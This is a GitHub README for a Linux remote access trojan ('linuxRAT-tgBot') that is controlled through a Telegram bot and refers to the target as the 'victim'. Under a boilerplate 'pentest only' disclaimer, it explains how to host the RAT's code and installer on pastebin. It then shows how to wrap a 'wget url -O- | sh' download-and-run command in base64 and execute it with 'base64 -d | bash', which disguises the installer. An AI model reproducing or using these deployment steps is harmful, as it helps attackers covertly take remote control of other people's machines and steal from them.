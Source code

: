 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>
##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1) Setup the bot's config:   
1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).   
1.2) Paste this code in pastebin.com   
1.3) In the TOKEN ribbon, enter your bot token.   
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).   
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.   

2) You should have it in the settings:     
+ Paste Expiration: 1 Week (recommended).    
+ Paste Exposure: Unlisted (so other users don't see your token and id).   

You should get it:   

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".     
3) Click on raw, and **save** the received link:     

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config    
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).   
4.2) Paste this code in pastebin.com    
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.    

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

  4.4) If possible, do the same with URL_KERNEL_SERVICE,URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.     
  4.5) Repeat the points 2.1 and 3.   

##### Using
Open a new terminal, and write this code :   
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5   

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:   

```bash
 echo output | base64 -d | bash
```
 
Run this command (on your devices only)!  


## Tested   
**this is script tested on:**  
* Ubuntu 22.04 LTS  


